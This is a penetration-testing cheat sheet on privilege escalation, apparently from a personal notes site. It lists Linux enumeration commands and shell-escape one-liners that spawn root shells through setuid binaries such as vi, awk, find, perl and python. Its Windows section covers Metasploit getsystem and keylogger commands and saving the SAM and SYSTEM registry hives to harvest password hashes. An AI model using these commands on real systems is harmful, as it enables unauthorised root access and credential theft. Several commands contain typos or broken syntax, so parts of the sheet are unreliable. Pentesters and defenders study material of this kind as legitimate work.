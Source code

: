 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

check sudo permissions | <code> sudo -l </code>
check for world writable files | <code> find / -perm -2 ! -tyle l -ls 2>/dev/null </code>
Cron Jobs | <code> cat /etc/crontab <br> #find files with week permisions</code>
Cron.d | Write a file to cron.d and wait for restart
Cron files | <code> ls /etc/cron.hourly/ <br> #can you write to any files </code>
Kernal Exploit | <code>Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection <br> Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> <br> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | [SANS](https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win)

Resources:
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [LinEnum](http://www.rebootuser.com/?p=1758)
* [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py)


**setuid permissions**
 
{% highlight bash %}

vi:
:shell
:set shell=/bin/bash
:! /bin/bash

less:
(press v - launching vi) :shell

more:
?,  !bash

more,less, man:
'! /bin/sh'
'!/bin/sh'
'!bash'

tee:
echo "evil script code" | tee script.sh

awk:
awk 'BEGIN {system("/bin/sh")}'

find . -exec bash -i \;
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

perl exec ""/bin/bash"";[ctrl-d]
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";

ruby exec ""bin/bash""
ruby: exec "/bin/sh"

python import os os.system('/in/bash')
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

lua: os.execute('/bin/sh')

irb(main:001:0> exec "/bin/sh"

nano 
{% endhighlight %}

>**Windows**

Find SMB Version 1 | <code> Get-Item HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Find SMB Version 2/3 | <code> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Find SMB Version 2/3 | <code> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Check installed patches | wmic qfe list full /format:list 
Check Services | <code> wmic service get name,startname,pathname </code>
Check Services | <code> for /F "tokens=2* delims= " %i in ('sc query ^| find /I "ce_name"') do @sc qc %i %j  </code>
Check Scheduled Tasks | <code> schtasks /query /fo list /v </code>
Check Startup | <code> wmic startup list full </code>
Check Permissions on Services, Tasks, and Startup |  <code> icacls executable <br> #look for something like Everyone:(CI)(F) or Users:(CI)(F) </code>
Missing Patches | <code> (New-Object -c Microsoft.Update.Session).CreateUpdateSearcher().Search("IsInstalled=0").Updates|Select Title </code>
Metasploit | use priv, getsystem -n [number]
Metasploit keylogger | keyscan_start, keyscan_stop, keyscan_dump
Hashed Passwords | <code> reg save HKLM\SAM C:\Windows\Temp\SAM </code>
Hashed Passwords | <code> reg save HKLM\SYSTEM SYSTEM </code>
SAM Locations | c:\windows\repair, c:\winnt\repair
Active Directory Representations | ntd.dit
Run a command as another user | <code> C:\> runas /noprofile /user:domain\username "mmc wf.msc" </code>

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin
https://www.slideshare.net/riyazwalikar/windows-privilege-escalation

>**Mind Map**

[Priv Esc Mind Map](https://binaryexile.github.io/images/privesc.jpg)



